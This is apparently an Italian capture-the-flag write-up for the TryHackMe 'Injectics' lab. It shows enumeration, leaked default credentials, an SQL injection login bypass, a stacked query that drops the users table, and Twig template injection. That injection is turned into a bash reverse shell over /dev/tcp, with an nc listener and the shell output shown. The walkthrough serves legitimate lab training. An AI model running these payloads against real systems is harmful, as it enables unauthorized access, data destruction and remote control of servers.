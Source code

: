 
#tryhackme #sqlinjection #tryhackmelabs 

https://tryhackme.com/room/injectics

Puoi utilizzare le tue competenze di web pen-testing per proteggere l'evento da eventuali attacchi di iniezione?

```
nmap -Pn -O -v -sV -p- 10.10.231.11
```

```
Discovered open port 22/tcp on 10.10.231.11
Discovered open port 80/tcp on 10.10.231.11
```


```
http://10.10.231.11/login.php
```
trovata pagina login admin
```
http://10.10.231.11/adminLogin007.php
```

```
http://10.10.231.11/script.js
```
codice interessante da analizzare può essere vulnerabile

enumeriamo altre dir
```
gobuster dir -u 10.10.231.11 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
```

troviamo 
```
/flags
```

```
/composer.json
```
	Twig
Dopo aver esaminato il codice sorgente,
```
/mail.log
```

```
From: dev@injectics.thm
To: superadmin@injectics.thm
Subject: Update before holidays

Hey,

Before heading off on holidays, I wanted to update you on the latest changes to the website. I have implemented several enhancements and enabled a special service called Injectics. This service continuously monitors the database to ensure it remains in a stable state.

To add an extra layer of safety, I have configured the service to automatically insert default credentials into the `users` table if it is ever deleted or becomes corrupted. This ensures that we always have a way to access the system and perform necessary maintenance. I have scheduled the service to run every minute.

Here are the default credentials that will be added:

| Email                     | Password 	              |
|---------------------------|-------------------------|
| superadmin@injectics.thm  | superSecurePasswd101    |
| dev@injectics.thm         | devPasswd123            |

Please let me know if there are any further updates or changes needed.

Best regards,
Dev Team

dev@injectics.thm
```

```
/phpmyadmin/doc/html/index.html
```
phpMyAdmin si basa su MySQL come database predefinito.

```
/phpmyadmin
```

```
http://10.10.231.11/phpmyadmin/
```

Proviamo SQLmap o BurpSuite

Elenco dei payload oer SQLi da provare con BurpSuite
```
https://github.com/payloadbox/sql-injection-payload-list/blob/master/Intruder/exploit/Auth_Bypass.txt?source=post_page-----a65afe03185e---------------------------------------
```
in payload settare Sniper ed aggiungere una regola per codificare tutti i caratteri in modo da bypassare eventuali filtri
```
' OR 'x'='x'#;
```

```
'%20OR%20'x'%3D'x'%23%3B
```
Torniamo al repeater ed inviamo codificando l injection in URL
```
POST /functions.php HTTP/1.1

Host: 10.10.231.11

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0

Accept: application/json, text/javascript, */*; q=0.01

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Content-Type: application/x-www-form-urlencoded; charset=UTF-8

X-Requested-With: XMLHttpRequest

Content-Length: 53

Origin: http://10.10.231.11

Connection: close

Referer: http://10.10.231.11/login.php

Cookie: PHPSESSID=k2j4jfs1066q7f0seubdaur0qc



username='%20OR%20'x'%3D'x'%23%3B&password=aaaaa&function=login
```

```
{"status":"success","message":"Login successful","is_admin":"true","first_name":"dev","last_name":"dev","redirect_link":"dashboard.php?isadmin=false"}
```

```
http://10.10.42.13/dashboard.php
```

ora dobbiamo cancellare la tabella users per poter accedere come admin
```
drop table users -- -
```

entriamo in Edit Leaderboard Entry e catturiamo la richiesta con Burpsuite

```
POST /edit_leaderboard.php HTTP/1.1
Host: 10.10.42.13
User-Agent: J
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 46
Origin: http://10.10.42.13
Connection: keep-alive
Referer: http://10.10.42.13/edit_leaderboard.php?rank=1&country=USA
Cookie: PHPSESSID=d3o5l25s9f7a5cee23n0f79r1d
Upgrade-Insecure-Requests: 1

rank=1&country=&gold=22&silver=21&bronze=12345
```

modifichiamola per cancellare la tabella users
```
POST /edit_leaderboard.php HTTP/1.1
Host: 10.10.42.13
User-Agent: J
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 46
Origin: http://10.10.42.13
Connection: keep-alive
Referer: http://10.10.42.13/edit_leaderboard.php?rank=1&country=USA
Cookie: PHPSESSID=d3o5l25s9f7a5cee23n0f79r1d
Upgrade-Insecure-Requests: 1

rank=1&country=&gold=22; drop table users -- - &silver=21&bronze=12345
```

```
Seems like database or some important table is deleted. InjecticsService is running to restore it. Please wait for 1-2 minutes.
```

aggiorno  la pagina ed esco dall'account

accedo nuovamente tramite la pagina di accesso dell'amministratore utilizzando le credenziali trovate in  /mail.log

```
superadmin@injectics.thm
```

```
superSecurePasswd101
```

ed otteniamo la flag!
```
THM{INJECTICS_ADMIN_PANEL_007}
```

Ora se andiamo su Aggiorna Profilo e sostituiamo il nome admin con
```
{{7*7}}
```
otteniamo sulla schermata Home Benvenuto 49 ciò significa che abbiamo trovato una vulnerabilità SSTI

dopo molte ricerche al riguardo 
```
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#twig
```

troviamo qualcosa di utile su SSTI

```
{{['id',""]|sort('passthru')}}
```

ora che abbiamo qualcosa di funzionante cerchiamo di ottenere una reverse shell
ci mettiamo in ascolto sul nostro kali
```
nc -lnvp 4444
```
immettiamo in Update Profile ed inviamo 
```
{{ ["bash -c 'exec bash -i >& /dev/tcp/10.14.99.134/4444 0>&1'", ""] | sort('passthru') }}
```
andiamo sulla pagina Home ed otteniamo la reverse shell!
```
┌──(root㉿kali)-[/home/kali]
└─# nc -lnvp 4444                                                                  
listening on [any] 4444 ...
connect to [10.14.99.134] from (UNKNOWN) [10.10.42.13] 36596
bash: cannot set terminal process group (670): Inappropriate ioctl for device
bash: no job control in this shell
www-data@injectics:/var/www/html$ 

```

```
ls -al
```

```
cd flags
```

```
cat 5d8af1dc14503c7e4bdc8e51a3469f48.txt
```

```
THM{xxxxxxxxxxxxxxxxxxxxxx}
```

potevamo ottenere la flag anche immettendo nel profilo:

```
{{['cat /var/www/html/flags/5d8af1dc14503c7e4bdc8e51a3469f48.txt',""]|sort('passthru')}}
```

